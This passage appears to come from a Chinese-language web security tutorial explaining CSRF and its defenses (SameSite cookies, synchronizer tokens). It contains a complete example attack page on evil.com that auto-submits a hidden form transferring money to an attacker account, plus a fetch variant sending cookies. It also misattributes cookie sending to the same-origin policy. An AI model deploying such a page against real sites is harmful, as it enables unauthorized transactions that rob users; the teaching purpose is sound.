 攻擊者在 evil.com 上放置的惡意頁面 (evil.html)：

```html
<!DOCTYPE html>
<html>
<head>
  <title>贏取免費獎品！</title>
</head>
<body onload="document.getElementById('transferForm').submit()">
  <h1>恭喜您贏得大獎！請稍候...</h1>
  
  <!-- 自動提交的隱藏表單 -->
  <form id="transferForm" action="https://bank.com/api/transfer" method="POST" style="display:none">
    <input type="hidden" name="to" value="attacker_account" />
    <input type="hidden" name="amount" value="50000" />
  </form>
  
  <!-- 更隱蔽的攻擊也可以用 JavaScript 發送 AJAX 請求 -->
  <script>
    // 另一種攻擊方式
    /*
    fetch('https://bank.com/api/transfer', {
      method: 'POST',
      credentials: 'include', // 關鍵：發送時帶上 cookies
      headers: { 'Content-Type': 'application/json' },
      body: JSON.stringify({ to: 'attacker_account', amount: 50000 })
    });
    */
  </script>
</body>
</html>
```

攻擊流程：
1. 使用者已登入銀行網站，持有有效的 session cookie
2. 使用者被誘導訪問 evil.com 或接收到含有惡意程式碼的電子郵件
3. 頁面載入後自動提交表單到 bank.com/api/transfer
4. 由於瀏覽器的同源政策，當向 bank.com 發送請求時，會帶上 bank.com 的 cookie
5. bank.com 的伺服器看到有效的 session cookie，因此授權轉賬操作

#### CSRF 防禦建議

* 使用 `SameSite=Lax` 或 `Strict` 屬性
* 實施 CSRF Token 機制


## 4. CSRF Token 實作方案

### 4.1 Synchronizer Token（同步式）

* Token 存在 Session 中，伺服器注入 `<input type="hidden" name="csrf">`
* 前端送出後，伺服器比對 `req.session.csrfToken === req.body.csrf`
* 適合傳統多頁應用
